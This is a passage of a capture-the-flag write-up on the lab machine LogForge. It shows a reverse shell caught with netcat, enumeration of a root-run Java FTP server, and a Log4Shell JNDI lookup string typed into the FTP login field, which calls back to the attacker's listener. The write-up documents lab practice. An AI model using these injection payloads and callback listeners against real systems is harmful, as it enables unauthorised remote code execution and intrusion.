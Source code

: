 Then after putting it into the field I got a shell back
![Logforge](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/logforge/4.png)

```
┌──(root💀kali)-[~]
└─# nc -lvnp 9002                                                                         1 ⨯
listening on [any] 9002 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.138] 53210
bash: cannot set terminal process group (827): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$ id
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

# Root

`netstat -tulnp` showed that port `21` was open.
`tcp6 0 0 :::21 :::* LISTEN`

To see what its running I'll use `ps -aux | grep ftp`. And it looks like its running a java FTP server
`root 948 0.3 1.7 3576972 70156 ? Sl 00:56 0:05 java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar`

I tried to see if it was vulnerable and it is!

```
tomcat@LogForge:/$ ftp localhost
ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://KALI:9002} 
${jndi:ldap://10.10.14.2:9002} 
```

```
┌──(root💀kali)-[/opt/log4Shell/ysoserial-modified/target]
└─# nc -lvnp 9002           
listening on [any] 9002 ...
[Cconnect to [10.10.14.2] from (UNKNOWN) [10.10.11.138] 53214
0
 `
```
